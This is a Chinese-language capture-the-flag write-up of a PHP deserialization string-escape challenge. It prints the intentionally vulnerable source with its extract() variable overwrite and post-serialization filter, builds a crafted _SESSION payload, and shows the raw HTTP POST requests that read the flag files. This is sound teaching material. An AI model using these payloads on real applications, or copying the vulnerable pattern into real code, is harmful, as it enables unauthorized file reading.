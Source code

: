 # [安洵杯 2019]easy_serialize_php

[题目地址](https://buuoj.cn/challenges#[%E5%AE%89%E6%B4%B5%E6%9D%AF%202019]easy_serialize_php)

之前比赛见过了，换个考法我又看懵了。

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

先看phpinfo里有啥。

- http://7ca9c8ed-9063-409c-8f5c-d2812947550e.node4.buuoj.cn:81/index.php?f=phpinfo

在auto_append_file一栏里找到了名为d0g3_f1ag.php的文件，应该就是flag了。那初步思路就是利用反序列化漏洞读取文件。当我们的function选择show_image时，系统就会读取userinfo内img字段的值，base64解码后读取文件名内的文件。往上看却发现img的值并不由我们控制，`$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));`是干扰项，多了个我们不想要的sha1，基本不可能满足我们的需求。是时候利用反序列化漏洞了。

在反序列化漏洞之前，`extract($_POST);`还有一个变量覆盖漏洞。然而我们并不能直接用这个漏洞覆盖`_SESSION['img']=xxx`，因为这个漏洞在系统设置img之前，无论我们怎么做都会被覆盖掉。专心看看反序列化吧。

`$serialize_info = filter(serialize($_SESSION));`是很明显的反序列化字符串逃逸漏洞。filter函数会把黑名单内的字符串置空，问题在于过滤的是序列化完成后的字符串，而不是之前。这样做会破坏反序列化字符串原有的结构，给我们可乘之机。先根据程序看一下正常情况下的反序列化字符串是什么样的。

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
$function='echo';
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['img'] = base64_encode('guest_img.png');
$_serialize_result=filter(serialize($_SESSION));
echo $_serialize_result;
//a:3:{s:4:"user";s:5:"guest";s:8:"function";s:4:"echo";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

仔细看反序列化字符串正常的结构，这一点十分重要。现在我们要做的是把img的值改为d0g3_f1ag.php的base64编码。或者格局打开，我们不改img，我们造个自己的img。前面不是有个变量覆盖漏洞吗，我们利用那个漏洞给`_SESSION`添加一个条目：flagphp。先不传值，模拟一下输出。

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
$function='echo';
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['flagphp']='';
$_SESSION['img'] = base64_encode('guest_img.png');
$_serialize_result=filter(serialize($_SESSION));
echo $_serialize_result;
//a:4:{s:4:"user";s:5:"guest";s:8:"function";s:4:"echo";s:7:"";s:0:"";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

现在直接unserialize是出不来东西的，因为对应flagphp键名的`s:7:`处对不上，这样搞会让php把后面的7个字符`";s:0:"`看成`s:7:`的值，再后面的键值对就无法对应了，img的值也没有改变。这就跟sql注入一样，我们自己构造一个img。

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
$function='echo';
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['flagphp']=';s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');
$_serialize_result=filter(serialize($_SESSION));
echo $_serialize_result;
//a:4:{s:4:"user";s:5:"guest";s:8:"function";s:4:"echo";s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

发现`s:7:`对上了，值是`";s:48:`，然后就到我们构造的键值对了。`;s:1:"1"`伪造了一个值，没有特殊意义，就是为了前面“键值对就无法对应”的问题不再发生。由于php解释格式化字符串到}就结束了，因此后面`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`就被忽略了，不会引发错误。由此我们成功构造了一个自己的img。

```
POST /index.php?f=show_image HTTP/1.1
Host: 6e16278c-6291-4200-8834-3c51653d06dc.node4.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

得知flag在/d0g3_fllllllag里。巧的是，/d0g3_fllllllag的base64编码也是20的长度，所以我们直接套payload就行了。

```
POST /index.php?f=show_image HTTP/1.1
Host: 6e16278c-6291-4200-8834-3c51653d06dc.node4.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

总结一下利用php反序列化逃逸的步骤。

1. 确定利用目标
2. 按照原程序正常序列化的步骤做一遍，看看正常序列化字符串的结构，基于此考虑攻击方式。注意，键值对设置的顺序会影响序列化结果，一定要按照程序内的方式设置值。
3. 计算逃逸总共需要的字符，考虑需要构建多少被替换的字符。
4. 插入payload，结合本地运行结果查看payload是否成功

php反序列化逃逸的标志就是，在序列化完成后对序列化结果的字符串做替换。只要程序这么写，绝对有问题。

## Flag
> flag{4664d9b1-533e-4c12-b3c7-9466ecaccbc6}
